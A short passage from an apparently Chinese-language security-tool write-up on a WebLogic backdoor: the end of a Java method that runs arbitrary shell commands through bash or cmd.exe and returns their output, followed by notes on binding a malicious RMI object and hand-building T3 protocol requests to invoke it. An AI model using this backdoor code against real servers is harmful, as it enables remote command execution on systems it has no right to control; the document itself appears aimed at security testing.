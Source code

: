 ```JAVA
                if (cmd.startsWith("$NO$")) {
                    cmds.add(cmd.substring(4));
                } else if (isLinux) {
                    cmds.add("/bin/bash");
                    cmds.add("-c");
                    cmds.add(cmd);
                } else {
                    cmds.add("cmd.exe");
                    cmds.add("/c");
                    cmds.add(cmd);
                }

                ProcessBuilder processBuilder = new ProcessBuilder(cmds);
                processBuilder.redirectErrorStream(true);
                Process proc = processBuilder.start();
                BufferedReader br = new BufferedReader(new InputStreamReader(proc.getInputStream()));
                StringBuffer sb = new StringBuffer();

                String line;
                while((line = br.readLine()) != null) {
                    sb.append(line).append("\n");
                }

                return sb.toString();
            }
        } catch (Exception var10) {
            return var10.getMessage();
        }
    }
}
```

利用payload绑定了恶意rmi后，就可以调用后门了，大概有获取context，lookup，invoke三个步骤，为了脱离java语言依赖，需要手动构造t3协议，每次请求主要可以分为三部分header、peerinfo、序列化对象

服务端解析t3协议时，通过hasJVMIDs判断是否需要读取JVMID，authentication必须读取，如图

![](/img/products/yakit/weblogic-hasJVMIDs.png)
